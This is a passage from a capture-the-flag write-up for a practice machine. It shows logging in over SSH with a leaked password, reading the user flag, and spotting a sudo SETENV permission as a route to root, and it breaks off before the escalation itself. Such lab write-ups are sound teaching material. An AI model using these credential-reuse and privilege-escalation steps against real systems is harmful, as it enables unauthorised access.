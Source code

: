 ```bash
    $conn = new mysqli($servername, $username, $password, $dbname);
[...]
```
We again have successfully leaked the index.php site. Now let us use the password to login via ssh.

### Getting shell as waldo

With the password for waldo leaked, let us login via ssh.

```bash
root@darkness:~# ssh waldo@10.10.10.187
waldo@10.10.10.187s password: &<h5b~yK3F#{PaPB&dA}{H>
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Sun May  3 11:15:42 2020 from 10.10.14.35
waldo@admirer:~$
```
We have successfully logged in as waldo and can now read user.txt.
```bash
waldo@admirer:~$ cat user.txt
999e6***************************
```

## Privesc to root

Now that we have a shell as `waldo`, let us enumerate the system to find a way to escalate our privileges to root.

### Enumeration as waldo

Let us check our sudo privileges first.
```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo: &<h5b~yK3F#{PaPB&dA}{H>
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Seems like we are allowed to run `/opt/scripts/admin_tasks.sh`. Furthermore, the `SETENV` flag is set, which allows us to preserve our environment variables upon using the sudo command.

#### Source code analysis
